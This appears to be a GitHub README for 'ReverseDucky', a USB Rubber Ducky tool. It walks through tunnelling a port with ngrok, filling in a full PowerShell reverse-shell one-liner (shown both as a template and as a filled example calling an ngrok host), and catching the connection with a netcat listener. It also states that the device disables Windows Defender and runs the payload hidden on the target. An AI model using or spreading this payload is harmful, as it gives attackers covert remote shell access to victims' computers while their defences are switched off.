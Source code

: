 # ReverseDucky
hahahaha quack quack!

Start tunneling...
```
ngrok tcp 1337
```

Sample ngrok output...
```
K8s Gateway API support available now: https://ngrok.com/r/k8sgb

Session Status                online
Account                       mkdirlove (Plan: Free)
Version                       3.8.0
Region                        Asia Pacific (ap)
Latency                       31ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ap.ngrok.io:16038 -> localhost:1337

Connections                   ttl     opn     rt1     rt5     p50     p90
                              11      0       0.00    0.00    33.52   223.30 
```
After running ngrok you will notice the value of "Forwarding". Edit the payload below and replace NGROK_IP AND NGROK_PORT with the data from the value of "Forwarding".

```
$client = New-Object System.Net.Sockets.TCPClient("{NGROK_IP}",{NGROK_PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Example:
```
$client = New-Object System.Net.Sockets.TCPClient("0.tcp.ap.ngrok.io",16038);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Open new terminal and run netcat listener and wait for a reverse connection from port 1337
```
nc -lvnp 1337
```

After plugging the USB Rubber Ducky on the target machine it will automatically disable the Windows Defender and open a hidden Powershell that will download the payload and execute it in the background.

```
This is for educational purposes only.

~MR.$UD0
```
